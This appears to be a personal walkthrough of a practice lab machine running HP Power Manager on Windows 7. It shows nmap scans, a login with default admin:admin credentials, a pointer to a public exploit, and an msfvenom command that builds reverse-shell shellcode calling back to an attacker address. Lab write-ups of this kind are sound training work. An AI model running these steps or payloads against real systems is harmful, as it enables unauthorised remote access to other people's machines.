




Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.244.45
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-11 16:51 IST
Warning: 192.168.244.45 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.244.45
Host is up (0.083s latency).
Not shown: 65522 closed tcp ports (reset)
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
3389/tcp  open     ms-wbt-server
3573/tcp  open     tag-ups-1
18613/tcp filtered unknown
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49155/tcp open     unknown
49158/tcp open     unknown
49159/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 19.15 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 80,135,139,445,3389,3573,49152,49153,49154,49155,49158,49159 192.168.244.45
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-11 16:53 IST
Nmap scan report for 192.168.244.45
Host is up (0.16s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         GoAhead WebServer
| http-title: HP Power Manager
|_Requested resource was http://192.168.244.45/index.asp
|_http-server-header: GoAhead-Webs
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate N 7600 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: KEVIN
|   NetBIOS_Domain_Name: KEVIN
|   NetBIOS_Computer_Name: KEVIN
|   DNS_Domain_Name: kevin
|   DNS_Computer_Name: kevin
|   Product_Version: 6.1.7600
|_  System_Time: 2026-03-11T11:24:05+00:00
|_ssl-date: 2026-03-11T11:24:20+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=kevin
| Not valid before: 2026-03-10T11:19:53
|_Not valid after:  2026-09-09T11:19:53
3573/tcp  open  tag-ups-1?
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: KEVIN; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-11T11:24:05
|_  start_date: 2026-03-11T11:20:36
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: KEVIN, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:a5:0b (VMware)
| smb-os-discovery: 
|   OS: Windows 7 Ultimate N 7600 (Windows 7 Ultimate N 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: kevin
|   NetBIOS computer name: KEVIN\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-03-11T04:24:05-07:00
|_clock-skew: mean: 1h24m00s, deviation: 3h07m50s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.67 seconds
```

Visiting web server on port 80.

Tried default credentials `admin : admin` and we were successful.

When we clicked on Help option, we got to know the version.

Searched for public exploits.
https://www.exploit-db.com/exploits/10099


![[Pasted image 20260312212924.png]]
Inside the exploit they see:

badchar =  
`\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a`

Bad characters are bytes that **break the exploit** because the application processes them incorrectly.

Example:

\x00

This ends strings in C programs.

So the shellcode must **avoid these characters**.
# Generate Shellcode with msfvenom

The attacker creates new shellcode using **Metasploit Framework**.

Command:
```sh
msfvenom -p windows/shell_reverse_tcp -b '\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a' LHOST=192.168.45.171 LPORT=4444 -e x86/alpha_mixed -f c
```
Explanation:

| Parameter                      | Meaning                      |
| ------------------------------ | ---------------------------- |
| `-p windows/shell_reverse_tcp` | Create reverse shell payload |
| `-b`                           | Avoid bad characters         |
| `LHOST`                        | Attacker IP                  |
| `LPORT`                        | Attacker listening port      |
| `-e`                           | Encoder                      |
| `-f c`                         | Output format                |

![[Pasted image 20260312214518.png]]